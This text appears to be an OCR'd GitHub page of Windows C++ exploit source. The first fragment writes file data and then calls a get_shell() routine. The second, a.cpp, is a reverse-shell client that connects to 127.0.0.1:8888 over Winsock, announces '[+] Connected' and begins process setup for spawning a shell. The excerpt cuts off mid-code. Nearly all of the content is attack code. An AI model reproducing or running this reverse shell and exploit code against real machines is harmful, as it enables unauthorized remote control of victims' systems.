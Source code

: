 ```c++
		DWORD szw = szr;
		PTCHAR p = (PTCHAR)malloc(szr);

		ReadFile(shell_handler, p, szr, &szr, 0);
		WriteFile(lock_handler, p, szw, &szw, 0);

		CloseHandle(lock_handler);
		CloseHandle(shell_handler);
		
		printf("OK\n");
		get_shell();
		
		
	}
	else
	{
		printf("nofuck Error creating directory - %d\n", GetLastError());
	}

	return 0;
}



```

a.cpp:

```c++
#include <WinSock2.h>

#include <winsock.h>

#include <stdio.h>

#pragma comment(lib,"ws2_32.lib")

#pragma comment(lib,"ws2_32.lib")


int main(int argc, char* argv[])
{
    WSADATA wsd;
    WSAStartup(0x0202, &wsd);
    SOCKET socket = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    SOCKADDR_IN sin;
    sin.sin_addr.S_un.S_addr = inet_addr("127.0.0.1");
    sin.sin_port = htons(8888);
    sin.sin_family = AF_INET;
    
    printf("conncting...");
    int ret = connect(socket, (sockaddr*)&sin, sizeof(sin));
    if(ret!=0)
    {
        printf("[-] Error connect : %d\n", WSAGetLastError());
        getc(stdin);
    }

    send(socket, "[+] Connected\n", strlen("[+] Connected\n"), 0);

    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    GetStartupInfo(&si);
    si.cb = sizeof(STARTUPINFO);
```